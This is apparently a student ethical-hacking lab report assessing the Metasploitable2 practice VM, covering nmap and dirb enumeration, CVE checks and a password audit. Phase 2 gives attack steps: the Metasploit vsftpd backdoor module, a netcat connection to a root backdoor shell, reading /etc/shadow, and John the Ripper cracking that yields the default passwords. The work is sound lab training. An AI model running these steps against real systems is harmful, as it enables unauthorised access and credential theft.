# Internal Security Assessment of Metasploitable2
**Client:** ParoCyber  
**Course:** ParoCyber - Ethical Hacking  
**Assessor:** Emmanuel Selasie Aggor 
**Attacker Machine:** Kali Linux  
**Target Machine:** Metasploitable2  
**Assessment Duration:** 1 Week  
**Date:** June 2026  
**Classification:** Confidential

---

## 1.1 Objective
 
Identify as much information as possible about the target system including its IP address, open ports, running services, service versions, and hosted web applications.

---
 
### 1.2 Network Discovery
 
### Tool Used
`nmap` `ip a` – Host Discovery Scan
 
### Command
```bash
ip a
nmap -sn 192.168.56.0/24
```
 
### Result
 
| Field            | Value              |
|------------------|--------------------|
| Attacker IP      | 192.168.56.102     |
| Target IP        | 192.168.56.103     |
| Network Range    | 192.168.56.0/24    |
| MAC Address      | 08:00:27:4F:2A:5E  |
| Host Status      | Up                 |
 

**Screenshot:** 

---

### 1.2 Port Scanning

**Tool Used:** `nmap` – Full Port Scan with Version Detection

**Command:**
```bash
nmap -sV -sC -p- 192.168.56.103 -oN phase1_portscan.txt
```

**Open Ports Discovered:**

| Port      | State | Service               | Version                                        |
|-----------|-------|-----------------------|------------------------------------------------|
| 21/tcp    | Open  | FTP                   | vsftpd 2.3.4 (anonymous login allowed)         |
| 22/tcp    | Open  | SSH                   | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)  |
| 23/tcp    | Open  | Telnet                | Linux telnetd                                  |
| 25/tcp    | Open  | SMTP                  | Postfix smtpd                                  |
| 53/tcp    | Open  | DNS                   | ISC BIND 9.4.2                                 |
| 80/tcp    | Open  | HTTP                  | Apache httpd 2.2.8 (Ubuntu DAV/2)              |
| 111/tcp   | Open  | RPCbind               | 2 (RPC #100000)                                |
| 139/tcp   | Open  | NetBIOS-SSN           | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)   |
| 445/tcp   | Open  | SMB                   | Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)|
| 512/tcp   | Open  | exec                  | netkit-rsh rexecd                              |
| 513/tcp   | Open  | login                 | rlogind                                        |
| 514/tcp   | Open  | shell                 | Netkit rshd                                    |
| 1099/tcp  | Open  | Java RMI              | GNU Classpath grmiregistry                     |
| 1524/tcp  | Open  | bindshell (Backdoor)  | Metasploitable root shell                      |
| 2049/tcp  | Open  | NFS                   | 2-4 (RPC #100003)                              |
| 2121/tcp  | Open  | FTP (Alt)             | ProFTPD 1.3.1                                  |
| 3306/tcp  | Open  | MySQL                 | MySQL 5.0.51a-3ubuntu5                         |
| 3632/tcp  | Open  | distccd               | distccd v1 (GNU 4.2.4 Ubuntu)                  |
| 5432/tcp  | Open  | PostgreSQL            | PostgreSQL DB 8.3.0 - 8.3.7                   |
| 5900/tcp  | Open  | VNC                   | VNC Protocol 3.3                               |
| 6000/tcp  | Open  | X11                   | Access Denied                                  |
| 6667/tcp  | Open  | IRC                   | UnrealIRCd                                     |
| 6697/tcp  | Open  | IRC (SSL)             | UnrealIRCd                                     |
| 8009/tcp  | Open  | AJP13                 | Apache Jserv Protocol v1.3                     |
| 8180/tcp  | Open  | HTTP (Alt)            | Apache Tomcat/Coyote JSP engine 1.1            |
| 8787/tcp  | Open  | DRb                   | Ruby DRb RMI (Ruby 1.8)                        |
| 45054/tcp | Open  | nlockmgr              | 1-4 (RPC #100021)                              |
| 45407/tcp | Open  | mountd                | 1-3 (RPC #100005)                              |
| 53103/tcp | Open  | status                | 1 (RPC #100024)                                |
| 54882/tcp | Open  | Java RMI              | GNU Classpath grmiregistry                     |

**Screenshot:** 

---

### 1.3 Service Enumeration

#### FTP – Port 21 (vsftpd 2.3.4)

**Command:**
```bash
nmap -sV -p 21 --script=ftp-anon,ftp-syst 192.168.56.103
```

**Findings:**
- Version: vsftpd 2.3.4 
- Anonymous FTP login: **Allowed** (FTP code 230 confirmed by scan)
- Connected client logged in as: `ftp`
- Connection type: plaintext (no encryption on control or data connections)
- Session timeout: 300 seconds
- Known backdoor: CVE-2011-2523 — vsftpd 2.3.4 backdoor allows unauthenticated remote command execution via a smiley-face `:)` in the username

**Screenshot:** 

---

#### SSH – Port 22 (OpenSSH 4.7p1)

**Command:**
```bash
nmap -p 22 --script=ssh-hostkey 192.168.56.103
```

**Findings:**
- Version: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0) — released 2007, critically outdated
- DSA host key (1024-bit): `60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd`
- RSA host key (2048-bit): `56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3`
- Susceptible to brute-force attacks — no rate limiting configured

**Screenshot:** 

---

#### SMB – Port 445 (Samba 3.0.20)

**Command:**
```bash
nmap -p 445 --script=smb-os-discovery 192.168.56.103
```

**Findings:**
- OS: Unix (Samba 3.0.20-Debian)
- Computer Name: `metasploitable`
- NetBIOS Name: `METASPLOITABLE`
- Domain: `localdomain`
- FQDN: `metasploitable.localdomain`
- System time: 2026-06-10T14:38:56-04:00
- Message signing: **disabled** (dangerous — enables relay attacks)
- SMB2: negotiation failed (only SMBv1 supported)
- Vulnerable to CVE-2007-2447 (Samba usermap_script — unauthenticated RCE)

**Screenshot:** 

---

#### HTTP – Port 80 (Apache 2.2.8)

**Command:**
```bash
nmap -p 80 --script=http-title,http-headers 192.168.56.103
```

**Findings:**
- Server: Apache/2.2.8 (Ubuntu) DAV/2
- Page title: `Metasploitable2 - Linux`
- WebDAV enabled — potential file upload vector
- Multiple vulnerable web applications hosted

**Screenshot:** 

---

### 2.5 Web Enumeration
 
**Tool Used:** `dirb` v2.22
 
**Command:**
```bash
dirb http://192.168.56.103
```
 
**Scan Statistics:**
- Wordlist: `/usr/share/dirb/wordlists/common.txt`
- Words tested: 4,612
- Total URLs found: 42
- Scan duration: ~36 seconds (18:54:17 – 18:54:53)
**Web Applications and Directories Discovered:**
 
| URL / Path                          | HTTP Code | Size     | Finding / Risk                                      |
|-------------------------------------|-----------|----------|-----------------------------------------------------|
| `/index.php`                        | 200       | 891 B    | Default landing page                                |
| `/phpinfo.php`                      | 200       | 48104 B  | Full PHP server config exposed — information disclosure |
| `/phpinfo`                          | 200       | 48092 B  | Duplicate phpinfo access without extension          |
| `/dav/`                             | Directory | Listable | WebDAV enabled — unauthenticated file upload vector |
| `/phpMyAdmin/`                      | Directory | —        | MySQL admin panel — direct database access          |
| `/phpMyAdmin/index.php`             | 200       | 4145 B   | phpMyAdmin login portal                             |
| `/phpMyAdmin/setup/index.php`       | 200       | 8626 B   | phpMyAdmin setup page — should not be public        |
| `/phpMyAdmin/setup/config`          | 303       | 1370 B   | Config redirect — potential sensitive data exposure |
| `/phpMyAdmin/phpmyadmin`            | 200       | 21389 B  | Additional phpMyAdmin access point                  |
| `/phpMyAdmin/ChangeLog`             | 200       | 40540 B  | Version disclosure via public changelog             |
| `/phpMyAdmin/README`                | 200       | 2624 B   | Version disclosure via public README                |
| `/test/`                            | Directory | Listable | Test directory — full contents browseable           |
| `/twiki/`                           | Directory | —        | TWiki — vulnerable wiki platform                   |
| `/twiki/bin/`                       | Directory | Listable | TWiki binaries publicly accessible                  |
| `/twiki/index.html`                 | 200       | 782 B    | TWiki landing page                                  |
| `/twiki/lib/`                       | Directory | Listable | TWiki library files exposed                         |
| `/twiki/pub/`                       | Directory | Listable | TWiki public uploads directory browseable           |
| `/cgi-bin/`                         | 403       | 295 B    | CGI directory present (access denied)               |
| `/server-status`                    | 403       | 300 B    | Apache server status page present (access denied)   |
 
**Notable Security Observations from dirb:**
- `/dav/` — directory listing is **fully enabled**, contents are browseable without authentication
- `/test/` — directory listing is **fully enabled**, potentially exposes test scripts or sensitive files
- Multiple phpMyAdmin subdirectories are listable — exposes internal library structure and version info
- TWiki `bin/`, `lib/`, and `pub/` directories are all listable — source files and uploads are browseable
- `phpinfo.php` is publicly accessible — exposes PHP version, loaded modules, server paths, and configuration
> 📸 *[Insert dirb scan terminal screenshot here]*
> 📸 *[Insert browser screenshot of phpMyAdmin login page — http://192.168.56.103/phpMyAdmin/]*
> 📸 *[Insert browser screenshot of phpinfo.php output — http://192.168.56.103/phpinfo.php]*
> 📸 *[Insert browser screenshot of /dav/ directory listing — http://192.168.56.103/dav/]*
> 📸 *[Insert browser screenshot of TWiki — http://192.168.56.103/twiki/]*

---

### 2.6 Phase 1 Deliverables Summary

| Finding               | Result                                                                                          |
|-----------------------|-------------------------------------------------------------------------------------------------|
| Target IP             | 192.168.56.103                                                                                  |
| Attacker IP           | 192.168.56.102                                                                                  |
| MAC Address           | 08:00:27:4F:2A:5E (Oracle VirtualBox)                                                           |
| Hostname              | metasploitable.localdomain                                                                      |
| OS                    | Linux / Unix (Samba fingerprint: Ubuntu 8.04)                                                   |
| Open Ports (30 total) | 21, 22, 23, 25, 53, 80, 111, 139, 445, 512, 513, 514, 1099, 1524, 2049, 2121, 3306, 3632, 5432, 5900, 6000, 6667, 6697, 8009, 8180, 8787, 45054, 45407, 53103, 54882 |
| Key Services Found    | vsftpd 2.3.4, OpenSSH 4.7p1, Apache 2.2.8, Samba 3.0.20, MySQL 5.0.51a, ProFTPD 1.3.1, VNC 3.3, PostgreSQL 8.3, UnrealIRCd, Ruby DRb, Apache Tomcat 5.5 |
| Web Applications Found | phpMyAdmin (with setup page), TWiki, WebDAV (/dav/), phpinfo.php, Test directory (/test/)                         |
| Critical Notes        | Anonymous FTP allowed; root backdoor shell on port 1524; SMB signing disabled; SSLv2 supported on SMTP |

---

## 3. Phase 2 – Password Security Assessment

### 3.1 Objective
Assess the strength of passwords used on the Metasploitable2 system by extracting password hashes and performing a password audit using John the Ripper.

---

### 3.2 Hash Collection

#### Step 1 – Gain Access to the System

Using the vsftpd 2.3.4 backdoor or an SSH brute-force attack (from Phase 1), access the system:

```bash
# Using Metasploit vsftpd backdoor
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.103
run
```

Or gain access via the open root shell on port 1524:
```bash
nc 192.168.56.103 1524
```

**Screenshot:** 
---

#### Step 2 – Extract Password Hashes

Once inside the system, extract the shadow file:

```bash
cat /etc/passwd
cat /etc/shadow
```

Copy the hashes to your Kali machine and save as `hashes.txt`.

**Screenshot:** 

---

#### Step 3 – Combine passwd and shadow

```bash
unshadow /etc/passwd /etc/shadow > combined.txt
```

---

#### 3.3 Password Audit

**Tool Used:** John the Ripper

**Command:**
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt combined.txt
```

**View cracked passwords:**
```bash
john --show combined.txt
```

**Screenshot:** 

---

### 3.4 Password Risk Assessment

| User     | UID  | Password Recovered | Password    | Strength | Risk     |
|----------|------|--------------------|-------------|----------|----------|
| sys      | 3    | Yes                | batman      | Weak     | High     |
| klog     | 103  | Yes                | 123456789   | Weak     | High     |
| msfadmin | 1000 | Yes                | msfadmin    | Weak     | Critical |
| postgres | 108  | Yes                | postgres    | Weak     | Critical |
| user     | 1001 | Yes                | user        | Weak     | Critical |
| service  | 1002 | Yes                | service     | Weak     | Critical |
| unknown  | -    | Not cracked        | -           | Unknown  | Pending  |

**Total hashes loaded:** 7
**Cracked:** 6
**Remaining:** 1 (uncracked)

**Screenshot:** 

---

## 3.5 Phase 2 Deliverables - Password Assessment Report

| Metric                       | Value                                                        |
|------------------------------|--------------------------------------------------------------|
| Total Hashes Loaded          | 7 (md5crypt format)                                          |
| Accounts Cracked             | 6 (sys, klog, msfadmin, postgres, user, service)             |
| Remaining Uncracked          | 1                                                            |
| Weak Passwords Found         | 6 (batman, 123456789, msfadmin, postgres, user, service)     |
| Default/Username as Password | Yes - msfadmin, postgres, user, service all use username as password |
| Strong Passwords Found       | 0                                                            |
| Hash Format                  | md5crypt / crypt(3) $1$ (MD5 256/256 AVX2)                  |

**Security Recommendations:**
- Enforce a strong password policy (minimum 12 characters, mixed case, numbers, symbols)
- Disable default accounts or change default credentials immediately
- Implement account lockout after 5 failed login attempts
- Use password managers to generate and store unique credentials
- Enable Multi-Factor Authentication (MFA) for all privileged accounts
- Regularly audit `/etc/shadow` for weak or reused passwords

---

## 4. Phase 3 – Vulnerability Assessment

### 4.1 Objective
Identify and categorize vulnerabilities present on the Metasploitable2 system across all services discovered in Phase 1.

---

### 4.2 Service Review

#### FTP – vsftpd 2.3.4

**Command:**
```bash
nmap -p 21 --script=ftp-vsftpd-backdoor 192.168.56.103
```

**Findings:**
- CVE-2011-2523: vsftpd 2.3.4 backdoor — a malicious version of vsftpd was distributed with a backdoor that opens a shell on port 6200 when `:)` is appended to the username during login.
- Anonymous login enabled — any unauthenticated user can browse FTP files.

**Screenshot:** 


---

## SSH - OpenSSH 4.7p1

**Findings:**
- Version released in 2007 - over 17 years outdated.
- No brute-force protection configured.
- Weak passwords (as shown in Phase 2) make this trivially exploitable.

---

## Telnet - Port 23

**Findings:**
- Telnet transmits all data in **plaintext** including usernames and passwords.
- Any attacker with network access can perform a man-in-the-middle attack and capture credentials.
- Telnet should be completely disabled and replaced with SSH.

---

## Samba - Port 445 (SMB)

**Command:**
```bash
nmap -p 445 --script=smb-vuln-ms08-067,smb-vuln-cve-2007-2447 192.168.56.103
```

**Findings:**
- CVE-2007-2447: Samba usermap_script vulnerability - allows unauthenticated remote code execution by injecting shell metacharacters into the username field.
- Samba version 3.0.20 is critically outdated.

**Screenshot:** 

---

#### distccd – Port 3632

**Command:**
```bash
nmap -p 3632 --script=distcc-cve2004-2687 192.168.56.103
```

**Scan Output:**
```
PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687:
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|     Disclosure date: 2002-02-01
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

**Findings:**
- CVE-2004-2687 **confirmed VULNERABLE and Exploitable** by Nmap NSE script
- CVSSv2 score: **9.3 HIGH** — arbitrary remote command execution
- Attacker can execute commands as `daemon` user (uid=1, gid=1) without authentication
- Vulnerability is due to weak service configuration — distccd accepts jobs from any host
- Disclosed since 2002 — over 20 years unpatched on this system

**Screenshot:** 

---
